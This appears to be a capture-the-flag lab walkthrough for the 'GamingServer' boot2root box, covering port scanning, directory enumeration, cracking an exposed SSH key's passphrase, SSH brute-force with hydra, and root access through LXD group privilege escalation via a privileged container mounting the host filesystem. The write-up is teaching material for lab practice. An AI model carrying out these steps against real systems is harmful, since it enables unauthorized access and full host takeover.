# GamingServer

- An Easy Boot2Root box for beginners.  
- Can you gain access to this gaming server built by amateurs with no experience of web development and take advantage of the deployment system.  

# Tasks
- find the user flag and the root flag.  

# nmap

```sh
nmap -sV -sC -v 10.10.69.28
```

```sh
Scanning 10.10.69.28 [1000 ports]
Discovered open port 80/tcp on 10.10.69.28
Discovered open port 22/tcp on 10.10.69.28
22/tcp open ssh OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 2048 34:0e:fe:06:12:67:3e:a4:eb:ab:7a:c4:81:6d:fe:a9 (RSA)
| 256 49:61:1e:f4:52:6e:7b:29:98:db:30:2d:16:ed:f4:8b (ECDSA)
|_ 256 b8:60:c4:5b:b7:b2:d0:23:a0:c7:56:59:5c:63:1e:c4 (ED25519)
80/tcp open http Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: House of danak
| http-methods:
|_ Supported Methods: POST OPTIONS HEAD GET
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
# http_80

## ip `10.10.69.28`

## Gobuster

```sh
gobuster dir -u http://10.10.69.28 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```


## /secrets  
  
I got a secret file that after downloading i found that it was a `ssh RSA`  
  



surfing through the web i get an upload directory.
## /uploads


I downloaded the dict.lst file that contains a list of i think passwords or usernames.  


- Manifesto.txt file that is a  very useless manifesto that is only there to teach you poetry`


## source-code
Going back i got a comment from the dev.  



## so far we have  
- ssh RSA
- A dict.lst = i assume is a  wordlist
- A user : john 

# ssh_22

First attempt
----------------------------------------------
```sh
hydra -l john -P dict.lst 10.10.69.28 ssh 
```


-------------------------------------------------
Second Attempt
-------------------------------------------------
```sh
	ssh2john secretKey > secret  
	john --wordlist=dict.lst secret
```

---------------------------------------------------
Third Attempt
---------------------------------------------------
```sh
chmod 600 secretKey
ssh john@10.10.69.28 -i secretKey
```
This was much better.  


-----------------------------------------------------
Forth Attempt
-----------------------------------------------------
```sh
/usr/share/john/ssh2john.py secretKey > secret
sudo john secret -w=dict.lst
```


Now i have the passphrase `letmein`  
Later, back to my senses and spotted my mistakes,Can you??  

-------------------------------------------------------
Login to ssh john
-------------------------------------------------------
```sh
	sudo ssh john@10.10.69.28 -i secretKey
	#passphrase = letmein
```

And now i have a shell.

`ls` and `cat user.txt` to get the user flag.  


# PRIVILEGE ESCALATION
```sh
uid=1000(john) gid=1000(john) groups=1000(john),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
```

We use a method called `Lxd Privilege Escalation`  
Privilege escalation through lxd requires the access of local account, Good thing for us since we have SSH access already.  
Note: the `most important condition` is that the user should be a `member of lxd group`.  

1. To start with we need to download the lxd-alpine image builder to our local machine:  
```sh
git clone https://github.com/saghul/lxd-alpine-builder.git
cd lxd-alpine-builder 
sudo ./build-alpine -a i686 #run the build-alpine
```
When you ls the directory you will see that you have the image file with the .gz extension.  

2.  we need to setup a simple http server and upload to the image file to the remote machine.  
```sh
python3 -m http.server
```
We can use wget on the remote machine to upload the .qz file.  
```sh
wget http://10.8.172.59:8000/alpine-v3.19-i686-20240201_2212.tar.gz
```

3. Once uploaded we next need to import the image into lxd.  
```sh
lxc image import alpine-v3.19-i686-20240201_2212.tar.gz --alias alpine
```
If we use the command, “lxc image list”, we can see that the image is now available on lxd.

4. Now we need to create a machine from the image.  
```sh
lxc init alpine privesc -c security.privileged=true
```
Where alpine is the image file and privesc is what I am calling the machine.  

5.  we need to add a hard drive to the machine, the privesc technique in this case looks to have the whole host
mounted in the `/mnt/root` and thus you have root access.  
```sh
lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true
```

As noted above the machine privesc is currently stopped, so we will need to start it:
```sh
lxc start privesc
```
To exploit the machine
```sh
lxc exec privesc /bin/sh
```


